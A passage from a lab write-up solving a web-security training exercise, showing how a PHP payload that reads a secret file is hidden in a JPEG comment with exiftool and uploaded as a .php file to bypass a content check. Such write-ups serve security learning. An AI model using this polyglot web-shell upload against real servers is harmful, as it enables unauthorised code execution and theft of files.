 *This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter *

Decided to insert a malicious script into an image using `exiftool`:
`exiftool -comment="<?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>" image.jpg`
```
┌──(roshan㉿roshan)-[~/BSCP/file_upload]
└─$ exiftool image.jpg                                                                                  
ExifTool Version Number         : 12.76
File Name                       : image.jpg
...
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>
...
```
The `123` is to separate the secret from the rest of the characters in the image. 

After playing around, I found that the application had no verification of the file extension, but was able to check the contents of the file, ensuring the dimensions are that of a `.jpg` file.

I converted the `.jpg` file to `.php` file so that the script is executed:
```
┌──(roshan㉿roshan)-[~/BSCP/file_upload]
└─$ cp image.jpg image.php
```

I then uploaded the file to the page, checking the `GET` request to retrieve the image, finding the following:
![[Screenshot 2024-05-13 at 3.48.43 PM.png]]
